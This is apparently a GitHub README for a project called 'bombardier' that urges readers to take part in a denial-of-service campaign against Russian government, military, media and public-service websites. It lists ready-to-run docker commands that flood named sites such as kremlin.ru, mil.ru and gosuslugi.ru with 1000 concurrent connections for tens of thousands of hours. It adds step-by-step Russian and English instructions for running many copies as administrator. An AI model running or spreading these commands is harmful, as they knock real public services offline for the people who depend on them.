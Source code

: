 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
You can specify the path to the file with the URLs: `./run_all_docker.sh file.txt` or `./run_all_kuber.sh file.txt`
<br>
or easiest way 

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

Инструкция для пользователей Windows и Mac: 
1. Установить Docker: https://www.docker.com/products/docker-desktop 
2. Запустить докер и убедиться, что Docker Started 
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md 
4. Найти в программах Windows Command Prompt и запустить от имени Администратора 
5. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт) 
6. Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер 
7. Убедиться, что процесс пошёл 
8. Ждать падения рашки


Instruction for Windows and Mac: 
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip) 
2. Launch Docker and make sure that Docker is running 
3. Go here https://github.com/almerico/bombardier/blob/main/README.md 
4. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin. 
5. Open as many separate CMD consoles as many scripts you are going to launch (each line – one script) 
6. Copy script (e.g. docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) and press Enter
7. Make sure that the process started 
8. Wait till russia fall
